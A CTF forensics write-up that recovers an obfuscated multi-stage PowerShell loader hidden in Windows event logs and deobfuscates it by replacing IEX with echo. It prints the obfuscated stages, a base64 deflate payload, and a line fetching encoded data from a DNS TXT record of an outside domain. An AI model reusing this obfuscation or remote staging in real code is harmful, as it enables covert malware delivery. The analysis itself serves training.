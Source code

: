 # Texas Chainsaw Massacre: Tokyo Drift

### Challenge Description
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/d83c96b4-973b-43f8-8c43-7ca92b6ecdce)

### Solution

Unzipping the archive we got we can see we only have a .evtx file for Application Logs.  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/ac5844e5-f10c-4f2e-a72d-0f2c9042cbeb)

Using this [tool](https://github.com/omerbenamram/evtx/releases/tag/v0.8.0) we can convert this file into a readable format.

```bash
./evtx_dump-v0.8.0-x86_64-unknown-linux-gnu Application\ Logs.evtx >converted_application_log
```
The first thing that jumps out when we read the file is some hex encoded data in the Binary tag.  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/73beaa98-82a0-480f-9193-b18f16cbbd48)

Let's look for all of the tags that contain data:  

```bash
cat converted_application_log|grep Binary|grep -v '<Binary></Binary>'
```
We soon find a big blob:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/0edee597-ae13-4e6e-b107-2f69b6af3b43)

Which we can hex decode and we find ourselves a powershell script that looks quite obfuscated:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/66164489-043a-4e1c-a705-63151af3146a)

At first I wanted to start deobfuscating it but I got a better idea. I wanted to see how this gets executed so I started looking for an IEX somewhere. At the end of the script we have this part:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/e6f5fc9b-af8e-494e-85be-29565d1f249d)

If we just slap that into powershell (in a segregated Windows VM) we can see it just translated to `IEX`:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/d02446b4-0607-46b6-9506-05d74c9c412a)

So instead of executing the payload, let's just print it out. We are replacing the IEX with a simple `echo` and get this payload:

```powershell
(('. ( ZT6ENv:CoMSpEc[4,24,'+'25]-joinhx6hx6)( a6T ZT6( Set-variaBle hx6OfShx6 hx6hx6)a6T+ ( [StriNg'+'] [rEGeX]::mAtcheS( a6T ))421]RAhC[,hx6fKIhx6eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,hx6kwlhx6EcalPeRC-  )
hx6)bhx6+hx60Yb0Yhx6+hx6niOj-]52,hx6+hx642,hx6+'+'hx64[cehx6+hx6phx6+hx6SMoC:Vnhx6+hx6ekwl ( hx6+hx6. fKI ) (DnEOTDAhx6+hx6ehx6+hx6r.)} ) hx6+'+'hx6iicsA:hx6+hx6:]GnidOcNhx6+hx6e.hx6+hx6Thx6+hx6xethx6+hx6.hx6+hx6METsys[hx6+hx6 ,_kwhx6+h'+'x6l
 (REDhx6+hx6AeRmaertS.o'+'Ihx6+hx6 thx6+hx6Chx6'+'+hx6ejbO-Wh'+'x6+hx6En { HCaERoFhx6+hx6fKI) sSERpM'+'oCehx6+hx'+'6dhx6+hx6::hx6+hx6]'+'edOMhx6+hx6'+'nOisSErPMochx6+hx6.NoISSerhx6+hx6pMOc.oi[, ) b'+'0Yhx6+hx6==wDyD4p+S'+
's/l/hx6+hx6i+5GtatJKyfNjOhx6+'+'hx63hx6+hx63hx6+hx64Vhx6+hx6vj6wRyRXe1xy1pB0hx6+hx6AXVLMgOwYhx6+hx6//hx6+hx6Womhx6+hx6z'+'zUhx6+hx6tBhx6+hx6sx/ie0rVZ7hx6+hx6xcLiowWMGEVjk7JMfxVmuszhx6+hx6OT3XkKu9TvOsrhx6+hx6bbhx6+hx6cbhx6+
hx6GyZ6c/gYhx6+hx6Npilhx6+hx6BK7x5hx6+hx6Plchx6+hx68qUyOhBYhx6+hx6VecjNLW42YjM8SwtAhx6+hx6aR8Ihx6+hx6Ohx6+hx6whx6+hx6mhx6+hx66hx6+hx6UwWNmWzCw'+'hx6+hx6VrShx6+hx6r7Ihx6+hx6T2hx6+hx6k6Mj1Muhx6+hx6Khx6+hx6T'+
'/oRhx6+hx6O5BKK8R3NhDhx6+hx6om2Ahx6+hx6GYphx6+hx6yahx6+hx6TaNg8DAneNoeSjhx6+h'+'x6ugkTBFTcCPaSH0QjpFywhx6+'+'hx6aQyhx'+'6+hx6HtPUG'+'hx'+'6+hx6DL0BK3hx6+h'+'x6lClrHAvhx6+h'+'x64GOpVKhx6+hx6UNhx6+hx6mGzIDeraEvlpc'+
'kC9EGhx6+hx6gIaf96jSmShx6'+'+hx6Mhhx6+hx6hhx6+hx6RfI72hx6+hx6oHzUkDsZoT5hx6+hx6nhx6+hx6c7MD8W31Xq'+'Khx6+hx6d4dbthx6+hx6bth1RdSigEaEhx6+hx6JNERMLUxV'+'hx6+hx6ME4PJtUhx6+hx6tSIJUZfZhx6+hx6EEhx6+hx6Ahx6+hx6JsTdDZNbhx6+
hx60Y(gniRTS4hx6+hx66esh'+'x6+hx6aBmoRF::]tRevnOhx6+hx6C[]MAertsYrOmeM.Oi.mETSYs[ (MaErhx6+hx6thx6+hx6sEtALfeD.NOhx6+hx6IsS'+'erPmo'+'c.OI.mehx6+hx6TsYShx6'+'+hx6 hx6+hx6 tCejbO-WEhx6+hx6n ( hx6(((no'+'IsseRpX'+
'e-ekovni a6T,hx6.hx6,hx6RightToLEFthx6 ) RYcforEach{ZT6_ })+a6T ZT6( sV hx6oFshx6 hx6 hx6)a6T ) ')  -cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36 -rEPlAce'a6T',[cHAr]34  -rEPlAce  'RYc',[cHAr]124 -cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39) |. echo
```
When we run this code in powershell, it prints out the second stage of the powershell script:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/c47febec-dae9-4ebd-a98f-396b9b1b188f)

Close to the end of the script, we can see an `Invoke-Expression` written backwards so let's remove that and replace it with a backwards `echo`:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/2cf94e51-d2a1-40d3-828e-3311f200c3f4)

We now have this script:

```powershell
. ( $ENv:CoMSpEc[4,24,25]-join'')( " $( Set-variaBle 'OfS' '')"+ ( [StriNg] [rEGeX]::mAtcheS( " ))421]RAhC[,'fKI'eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-
63]RAhC[,'kwl'EcalPeRC-  )')b'+'0Yb0Y'+'niOj-]52,'+'42,'+'4[ce'+'p'+'SMoC:Vn'+'ekwl ( '+'. fKI ) (DnEOTDA'+'e'+'r.)} ) '+'iicsA:'+':]GnidOcN'+'e.'+'T'+'xet'+'.'+'METsys['+
' ,_kw'+'l (RED'+'AeRmaertS.oI'+' t'+'C'+'ejbO-W'+'En { HCaERoF'+'fKI) sSERpMoCe'+'d'+'::'+']edOM'+'nOisSErPMoc'+'.NoISSer'+'pMOc.oi[, ) b0Y'+'==wDyD4p+Ss/l/'+
'i+5GtatJKyfNjO'+'3'+'3'+'4V'+'vj6wRyRXe1xy1pB0'+'AXVLMgOwY'+'//'+'Wom'+'zzU'+'tB'+'sx/ie0rVZ7'+'xcLiowWMGEVjk7JMfxVmusz'+'OT3XkKu9TvOsr'+'bb'+'cb'+'GyZ6c/gY'+'Npil'+
'BK7x5'+'Plc'+'8qUyOhBY'+'VecjNLW42YjM8SwtA'+'aR8I'+'O'+'w'+'m'+'6'+'UwWNmWzCw'+'VrS'+'r7I'+'T2'+'k6Mj1Mu'+'K'+'T/oR'+'O5BKK8R3NhD'+'om2A'+'GYp'+'ya'+'TaNg8DAneNoeSj'+
'ugkTBFTcCPaSH0QjpFyw'+'aQy'+'HtPUG'+'DL0BK3'+'lClrHAv'+'4GOpVK'+'UN'+'mGzIDeraEvlpckC9EG'+'gIaf96jSmS'+'Mh'+'h'+'RfI72'+'oHzUkDsZoT5'+'n'+'c7MD8W31XqK'+'d4dbt'+
'bth1RdSigEaE'+'JNERMLUxV'+'ME4PJtU'+'tSIJUZfZ'+'EE'+'A'+'JsTdDZNb'+'0Y(gniRTS4'+'6es'+'aBmoRF::]tRevnO'+'C[]MAertsYrOmeM.Oi.mETSYs[ (MaEr'+'t'+'sEtALfeD.NO'+
'IsSerPmoc.OI.me'+'TsYS'+' '+' tCejbO-WE'+'n ( '(((ohce ",'.','RightToLEFt' ) |forEach{$_ })+" $( sV 'oFs' ' ')" )
```
After we run this script, we get yet another stage:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/2828f87d-f8da-4c26-a156-f792740443ba)

I have a feeling this one is using IEX as well, but we can confirm by inputting the command in powershell again:   
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/ded12aa5-7b01-4b02-9241-7c07b5a032e2)

Now that we've confirmed that it's also using IEX, we replace it with an echo:

```powershell
( nEW-ObjeCt  SYsTem.IO.comPreSsION.DefLAtEstrEaM( [sYSTEm.iO.MemOrYstreAM][COnveRt]::FRomBase64STRing('NZDdTsJAEEZfZUJIStUtJP4EMVxULMRENJEaEgiSdR1htbtbd4dKqX13
W8DM7cn5ToZsDkUzHo27IfRhhMSmSj69faIgGE9CkcplvEareDIzGmNUKVpOG4vAHrlCl3KB0LDGUPtHyQawyFpjQ0HSaPCcTFBTkgujSeoNenAD8gNaTaypYGA2moDhN3R8KKB5ORo/TKuM1jM6k2TI7rSrVwCz
WmNWwU6mwOI8RaAtwS8MjY24WLNjceVYBhOyUq8clP5x7KBlipNYg/c6ZyGbcbbrsOvT9uKkX3TOzsumVxfMJ7kjVEGMWwoiLcx7ZVr0ei/xsBtUzzmoW//YwOgMLVXA0Bp1yx1eXRyRw6jvV433OjNfyKJtatG5
+i/l/sS+p4DyDw==' ) ,[io.cOMpreSSIoN.coMPrESsiOnMOde]::deCoMpRESs )|FoREaCH { nEW-ObjeCt Io.StreamReADER( $_, [sysTEM.texT.eNcOdinG]::Ascii ) }).reADTOEnD( ) | . echo
```
We seem to be getting closer as we now a very easily readable script:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/de7d53ec-ecdd-471e-bd66-00b237f313a5)

I spent a little bit of time here being confused about the .zip "file" and started looking back into the .evtx log thinking I missed some hex encoded blob. But then I remembered about the "brilliant" idea Google had about releasing .zip TLDs so I tested to see if the command would actually resolve to something.  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/b8556cfe-19eb-464a-b984-39f646407ced)

Now knowing that it's a valid domain/address, I ripped just the part of the script that I cared about and ran it to get the flag:  

```powershell
$5GMLW = (Resolve-DnsName eventlog.zip -Type txt | ForEach-Object { $_.Strings }); if ($5GMLW -match '^[-A-Za-z0-9+/]*={0,3}$') { [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($5GMLW)) | echo}
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/71ffdd32-f7c4-4cf5-93a6-04bf6aa64cab)

flag{409537347c2fae01ef9826c2506ac660}



